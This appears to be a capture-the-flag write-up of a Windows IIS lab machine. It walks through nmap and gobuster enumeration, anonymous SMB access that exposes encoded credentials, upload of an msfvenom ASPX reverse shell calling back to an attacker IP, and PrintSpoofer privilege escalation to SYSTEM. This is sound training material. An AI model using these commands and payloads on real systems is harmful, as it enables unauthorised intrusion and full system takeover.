


# Relevant

"The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation":

- User.txt
- Root.txt

## Information

Let's start by performing an nmap scan on the target in order to enumerate its services:

```
nmap $ip -p-
```

> Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 13:44 EST
> Nmap scan report for 10.10.244.144
> Host is up (0.046s latency).
> Not shown: 995 filtered tcp ports (no-response)
> PORT     STATE SERVICE
> 80/tcp   open  http
> 135/tcp  open  msrpc
> 139/tcp  open  netbios-ssn
> 445/tcp  open  microsoft-ds
> 3389/tcp open  ms-wbt-server
>
> 49663/tcp open  unknown
> 49667/tcp open  unknown
> 49669/tcp open  unknown

A closer inspection to the last 3 ports show that 

```
nmap -A 10.10.244.144 -p 49663,49667,49669
```

> PORT      STATE SERVICE VERSION
> 49663/tcp open  http    Microsoft IIS httpd 10.0
> |_http-server-header: Microsoft-IIS/10.0
> |_http-title: IIS Windows Server
> | http-methods: 
> |_  Potentially risky methods: TRACE
> 49667/tcp open  msrpc   Microsoft Windows RPC
> 49669/tcp open  msrpc   Microsoft Windows RPC
> Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

From the output we can deduct with some certainty that the target server is a Windows Server hosting:

- Web Service on Port 80 and 49663
- SMB on Port 445 (135/139)
- RDP on Port 3389
- MSRPC on ports 49667 and 49669

## Website Enumeration

After opening the browser and visiting both websites, inspecting element and checking the robots.txt file no information could be extracted. 

Therefore I decided to run gobuster on both ports in order to see if I could find some hidden endpoint:

```
gobuster dir -u http://10.10.146.253 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u http://10.10.146.253:49663 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Contrary to the results on port 80 which did not return any interesting finding, port 49663 outputted one interesting finding.


There seems to be a hidden directory called nt4wrksv.


## SMB Enumeration

At the same time I ran gobuster as I mentioned above, I decided to start by listing what shares were available on the server.

```
smbclient -L //$ip/
```


From the outpput above the share named **nt4wrksv** (where have we seen this name before?) can be accessed anonymously with the below command:

```
smbclient //$ip/nt4wrksv -N
```

Inside, there is a **passwords.txt** file with the content below:

> [User Passwords - Encoded]
> Qm9iIC0gIVBAJCRXMHJEITEyMw==
> QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

We can guess that these are strings coded in base64. Let's try to decode both strings which may contain credentials.


Great! We have two usernames and the passwords to both those users!

Unfortunately, I was not able to login with RDP using the credentials above. Let us try to check if these users actually exist on the target machine with a tools called **psexec**.

The pypsexec library allows Python programs to remotely execute processes on Windows machines in a similar way as the PsExec tool. It provides a Pythonic interface for various functions such as creating a session, starting a process, and terminating a process.


From the output above we can conclude that whereas the bob user is in fact a real user on the target machine, which might not be case for Bill. The error message "Authenticated as Guest. Aborting." means that the Impacket PsExec tool was not able to authenticate using the provided username and password and instead authenticated as the Guest user. This indicates that the provided credentials are incorrect or that the user account does not have sufficient privileges to perform the desired action.

What next? Remember the hidden directory in port 49663? Let's inspect it further.


## Uploading a Reverse Shell through SMB

If we take a closer inspection to the /nt4wrksv directory, its just a blank HTML page with no information but we can try to access the passwords.txt file to validate the possibility that the share is linked with the web service.


It is! Now if we could find a way to upload a reverse shell payload we might be able to execute it using the browser!

Let's see if we have write permissions in the share.



Great! We were able to upload a file, let's see if we can open it using the web service on port 49663.


Perfect! Now what if we upload a reverse shell? Will the server run the code inside and connect back to our listener? Let's give it a try.

My first attempt was using a Powershell script such as [this one from Nishang.](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1) Unfortunately it did not seem to work and so I searched online for formats that would work on an IIS Server. 

An ASPX script seemed to most logical thing to use after some research. This seemed to be the case because ASPX is a server-side scripting language that is widely used on IIS servers, hence these servers include built-in support for ASPX scripts.

I tried two different payloads and both worked:

1. [Github borjmz ASPX Reverse Shell](https://github.com/borjmz/aspx-reverse-shell)

2. Msfvenom command

   First I tried a payload for a 32 bit windows OS, then a staged `windows/x64/shell/reverse_tcp` and finally a stageless payload which worked. 

   ```
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.22.157 LPORT=4444 -f aspx -o shell.aspx
   ```

Now we just have to repeat the steps with the new file:

1. Upload shell.aspx
2. Start netcat listener
3. Browse to /n4wrksv/shell.aspx
4. Profit

Great! We have a shell with `iis apppool\defaultapppool`, which means the current command prompt is running in the context of the "DefaultAppPool" application pool in IIS.


## Privilege Escalation


With the **SeImpersonatePrivilege** enabled this could be the case for a potato attack (which I found out was not a possibility for this target since the DCOM service is disabled which is an key feature for this attack to work). Nonetheless, there is a better alternative, **Printspoofer**.

> PrintSpoofer is a tool that exploits a vulnerability in the Microsoft Windows Print Spooler service, allowing an attacker to execute code with SYSTEM-level privileges on a vulnerable system. The tool takes advantage of the way the Print Spooler service handles user requests to print documents. By exploiting the vulnerability, an attacker can gain access to the print spooler service, which has high-level permissions to the system, and execute arbitrary code. This can be used to install malware, steal data, or perform other malicious actions on the system.


Exploiting this vulnerability is quite simple with [this tool](https://github.com/itm4n/PrintSpoofer). In our machine:

```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
smb //$ip/nt4wrksv/ -N
put PrintSpoofer64.exe
```

Open the target shell:

```
cd C:\inetpub\wwwroot\nt4wrksv
PrintSpoofer64.exe -i -c cmd
```



Great! We are root!

Now we just have to go to the Administrator's Desktop directory and retrieve the root.txt file.

```
type C:\Users\Administrator\Desktop\root.txt
```

